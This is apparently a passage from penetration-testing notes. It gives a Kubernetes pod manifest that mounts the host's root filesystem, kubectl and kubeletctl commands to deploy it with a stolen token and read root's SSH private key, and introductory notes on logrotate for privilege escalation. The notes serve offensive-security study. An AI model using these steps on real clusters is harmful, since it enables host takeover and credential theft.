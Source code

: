   - create privesc.yaml file

  ```bash
  apiVersion: v1
  kind: Pod
  metadata:
    name: privesc
    namespace: default
  spec:
    containers:
    - name: privesc
      image: nginx:1.14.2
      volumeMounts:
      - mountPath: /root
        name: mount-root-into-mnt
    volumes:
    - name: mount-root-into-mnt
      hostPath:
         path: /
    automountServiceAccountToken: true
    hostNetwork: true
  ```

  - create on the target kubernetes

  ```bash
  # priv esc part 3
  kubectl --token=$token --certificate-authority=ca.crt --server=https://<IP>:6443 apply -f privesc.yaml
  ```

  - If the pod is running we can execute the command and we could spawn a reverse shell or retrieve sensitive data like private SSH key from the root user.

  ```bash
  kubeletctl --server <IP> exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
  ```

###### Logrotate

- To prevent the hard disk from overflowing, a tool called logrotate takes care of archiving or disposing of old logs.
- The logs in /var/log give administrators the information they need to determine the cause behind malfunctions.
- The function of the rotation itself consists in renaming the log files. For example, new log files can be created for each new day, and the older ones will be renamed automatically. Another example of this would be to empty the oldest log file and thus reduce memory consumption.
- This tool is usually started periodically via cron and controlled via the configuration file /etc/logrotate.conf. Within this file, it contains global settings that determine the function of logrotate.
- To force a new rotation on the same day, we can set the date after the individual log files in the status file /var/lib/logrotate.status or use the -f/--force option

```bash
# get info about process rotate
sudo cat /var/lib/logrotate.status
ls /etc/logrotate.d/

cat /etc/logrotate.d/dpkg
```
